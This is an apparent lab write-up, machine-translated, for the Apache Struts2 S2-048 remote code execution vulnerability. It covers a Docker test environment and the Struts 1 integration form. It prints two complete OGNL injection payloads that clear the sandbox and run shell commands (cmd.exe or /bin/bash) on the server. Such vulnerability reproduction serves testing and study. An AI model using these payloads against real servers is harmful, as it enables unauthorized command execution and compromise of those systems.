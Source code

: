 # S2-048 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.32

Vulnerability details:

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## Test environment construction

```
Docker-compose up -d
```

## Vulnerability recurrence

See the reference documentation for details. Just talk about the current environment.

This environment is directly downloaded from the struts-2.3.32 showcase, deployed under tomcat-8.5. After the environment is started, visit the http://your-ip:8080/showcase/` to view the test page of struts2.

Visit Integration/Struts 1 Integration:

![](01.png)

The location that triggers the OGNL expression is the `Gangster Name` form.

Enter `${233*233}` to see the results of the execution (the remaining two forms are free to fill in):

![](02.png)

I borrowed a sandbox bypass method from S2-045 and I changed a POC. Fill in the following POC into the form `Gengster Name`, and submit the result directly to the command execution:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(# ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(# context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()) ).(#q)}
```

![](03.png)

Of course, you can also use the POC of s2-045 directly (you need to test under Burp):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(# ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(# context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win' ))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p =new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse ().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

```